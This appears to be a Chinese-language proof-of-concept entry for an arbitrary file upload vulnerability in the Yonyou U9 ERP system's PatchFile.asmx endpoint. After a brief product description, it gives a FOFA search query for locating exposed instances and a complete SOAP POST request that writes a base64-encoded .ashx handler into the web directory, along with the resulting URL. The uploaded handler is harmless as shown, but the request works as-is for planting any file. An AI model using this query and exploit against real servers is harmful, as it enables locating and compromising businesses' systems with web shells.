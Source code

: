 ## 用友U9-PatchFile.asmx接口存在任意文件上传漏洞

用友U9聚焦中型和中大型制造企业，全面支持业财税档一体化、设计制造一体化、计划执行一体化、营销服务一体化、项目制造一体化等数智制造场景，赋能组织变革和商业创新，融合产业互联网资源实现连接、共享、协同，助力制造企业高质量发展。

## fofa
```
body="logo-u9.png"
```

## poc
```
POST /CS/Office/AutoUpdates/PatchFile.asmx HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: 127.0.0.1
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://tempuri.org/SaveFile"
Content-Length: 880

<?xml version="1.0" encoding="utf-8"?>
 <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
   <SaveFile xmlns="http://tempuri.org/">
    <binData>PCUgQCB3ZWJoYW5kbGVyIGxhbmd1YWdlPSJDIyIgY2xhc3M9IkF2ZXJhZ2VIYW5kbGVyIiAlPiAKdXNpbmcgU3lzdGVtOyAKdXNpbmcgU3lzdGVtLldlYjsgCgpwdWJsaWMgY2xhc3MgQXZlcmFnZUhhbmRsZXIgOiBJSHR0cEhhbmRsZXIgCnsgCiAgICBwdWJsaWMgYm9vbCBJc1JldXNhYmxlIAogICAgeyAKICAgICAgICBnZXQgewogICAgICAgICAgICAgcmV0dXJuIHRydWU7IAogICAgICAgICAgICB9IAogICAgICAgIH0gCiAgICAgICAgcHVibGljIHZvaWQgUHJvY2Vzc1JlcXVlc3QoSHR0cENvbnRleHQgY3R4KSAKICAgICAgICB7IAogICAgICAgICAgICBjdHguUmVzcG9uc2UuV3JpdGUoImhlbGxvIik7IAogICAgICAgIH0gCiAgICB9</binData>
    <path>./</path>
    <fileName>testtest.ashx</fileName>
   </SaveFile>
  </soap:Body>
 </soap:Envelope>
```

上传后的路径 
`http://127.0.0.1/CS/Office/AutoUpdates/testtest.ashx`
